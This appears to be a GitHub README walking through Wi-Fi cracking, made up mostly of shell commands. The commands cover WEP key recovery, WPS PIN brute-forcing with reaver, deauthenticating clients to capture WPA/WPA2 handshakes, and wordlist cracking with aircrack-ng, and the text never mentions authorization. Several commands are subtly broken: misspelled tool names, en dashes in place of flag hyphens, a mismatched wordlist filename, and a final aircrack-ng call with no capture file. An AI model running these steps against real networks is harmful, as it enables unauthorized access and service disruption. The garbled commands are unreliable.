 # Wireless Network Penetration Testing

## Objective

Finding weaknesses in Wifi networks and exploiting vulnerabilities in their encryption protocols (e.g., WEP, WPA, WPA2).


### Skills Learned

- Finding 5Gz and 2.5Gz wireless networks around me
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng
- Crunch
- bettercap

### Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

>The mode will be Monitor now

1. Finding the 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

2. Find packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

3. Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
4. Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
5. Copy the key and remove the : and that would be the wifi password.

**If the network is not busy we need to follow the steps below: -**

1. We need to capture data from the WEP network and write it in a file.
```bash
 airodump-ng --bssid B4:75:0E:36:6A:9E --channel 11 --write basic_wep wlan0
```
2. We will need to commmunicate with the WEP network by creating a Fake Authentication attack using aireplay-ng
```bash
aireplay-ng --fakeauth 0 -a B4:75:0E:36:6A:9E -h 6E:3D:AC:84:DB:A0 wlan0
```
>the first MAC is the target and the second MAC is the USB adapter.
>If you want to know the permanent MAC address of the USB adapter
```bash
macchanger -s wlan0
Current MAC:   ba:1f:40:bc:19:d4 (unknown)
Permanent MAC: 34:7d:e4:40:83:86 (unknown)
```
3. We need to create an ARP Request preplay attack to generate new packets
```bash
aireplay-ng --arpreplay -b B4:75:0E:36:6A:9E -h ba:1f:40:bc:19:d4 wlan0
```
4. We will then crack the file we created to find the password.
```bash
aircrack-ng arpreplay-01.cap
```

### Steps for WPA/WPA2

**Works for some routers with WPS**
- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 -a 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```
- Don't execute the code above yet. We go to the second terminal and use reaver tool to bruteforce and get the pin.
```bash
reaver --bssid 78:67:0E:31:4C:42 --channel 1 --interface wlan0 -vvv --no-associate
```

- If Reaver finds the pin then the password will be available for the Wifi network. 
>Not all routers will be cracked with these steps.

**Method for capturing handshake**

1. Find on 5G and 2.4G networks and find the network with WPA/WPA2 and get the BSSID
```bash
airdump-ng --band abg wlan0
```
2. Write a file via **airodump-ng**.
```bash
airodump-ng --bssid 30:DE:4B:AD:CC:8A --channel 161 --write wpa_handshake wlan0 
```
3. Disconnect the client from the target network to capture the handshake.
```bash
aireplay-ng --deauth 4 -a 30:DE:4B:AD:CC:8A -c EE:7B:BE:70:D6:1F wlan0
```
> The number after the --deauth is the number of packets you want to send to the target.
> The first MAC is the target and the second MAC of the client you want to disconnect (will be under station).

4. The handshake WPA will be saved in the file we created wpa_handshake.cap
5. We will create a wordlist of passwords possibilities using the tool **Crunch**. Then read the file
```bash
crunch 1 3 abc123 -o test_wordlist.txt
cat test_worklist.txt
```

### Another way to get WPA passcodes (Wireless Access with Bettercap on Kali Linux) - four way handshake

- Change the wireless adapter to monitor mode
- activate bettercap -iface and activate net.recon
- activate wifi.recon and can see the access points of the environment we are sniffing by using **wifi.show**
- then we activate some other modules
```bash
set net.sniff.verbose true
set net.sniff.filter ether proto 0x888e
set net.sniff.output wpa.pcap
```
- We the deauth the SSID we want
``` bash
wifi.deauth <SSID of the wifi network>
```

- We wait until we see hanshakes are captured by bettercap

### Another way to find weaknesses  WPA2 /WPA3 (Handshakes)

- **ip addr** to show the IP address of the Wlan0 network for the wifi adapter.
- **iw dev** to show the wifi adapter and the mode its in.
- We will kill all processes
```bash
sudo airmon-ng check kill
```

- We then start the wifi adapter to change it to monitor mode.
```bash
sudo airmon-ng start wlan0
```

- We scan for the wifi networks.
```bash
sudo airodump-ng wlan0mon
```

- Save the BSSID and Channel and ESSID
- Now we can create a file and capture 802.11 frames that were captured to a file.
```bash
sudo  airodump-ng –w captures – bssid <MAC Address> wlan0
```
- Now we will create a deauth attack to the wifi network and then we will try to connect to the network with another device to capture the handshake

```bash
sudo aireplay-ng –deauth 0 – a <MAC Address of AP> wlan0
```

- We open the capture file with wireshark. **wireshark captureFile-01.cap**
- We need to filter the data by typing eapol and look for a reply and then a WPA Key Data

![image](https://github.com/user-attachments/assets/0b96849d-c7eb-4d7d-b3cc-d6b1e41e8526)

- We the stop monitor mode for the wifi adapter

```bash
sude airmon-ng stop wlan0
```

- We got to wordlists and download rockup.txt file
- We then use the rockyou file to crack the password
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt
```

- You can also use the program **wifite** to do all of this in one command.




 
￼
